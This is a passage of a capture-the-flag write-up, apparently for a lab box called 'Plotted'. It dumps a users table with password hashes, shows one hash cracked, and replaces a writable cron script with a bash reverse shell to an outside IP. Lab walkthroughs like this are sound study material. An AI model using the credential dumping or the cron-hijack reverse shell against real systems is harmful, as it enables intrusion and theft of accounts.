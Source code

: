 ```
Database
information_schema
tms_db
```

Used the database:

```sql
USE tms_db;
SHOW TABLES;
```

```
users
```

Dumped the users table:

```sql
SELECT * FROM users;
```

```
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                        | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | 14d147dc0ba2fed434e7fd176dc87fdc | uploads/1624240500_avatar.png | NULL       |    1 | 2021-01-20 14:02:37 | 2022-01-27 11:10:25 |
|  9 | Plotted      | User     | puser    | 1254737c076cf867dc53d60a0364f38e | uploads/1629336240_avatar.jpg | NULL       |    2 | 2021-08-19 09:24:25 | 2021-10-28 07:33:02 |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+------+---------------------+---------------------+
```

Hash cracked:

```
1254737c076cf867dc53d60a0364f38e → jsmith123
```

---

## Exploiting Cron

Logging in with cracked credentials didn’t work. Instead, I exploited the writable `backup.sh`.

```bash
www-data@plotted:/var/www/scripts$ nano shell.sh
bash -c 'exec bash -i &>/dev/tcp/10.201.98.101/4444 <&1'

mv backup.sh old
mv shell.sh backup.sh
chmod +x backup.sh
```
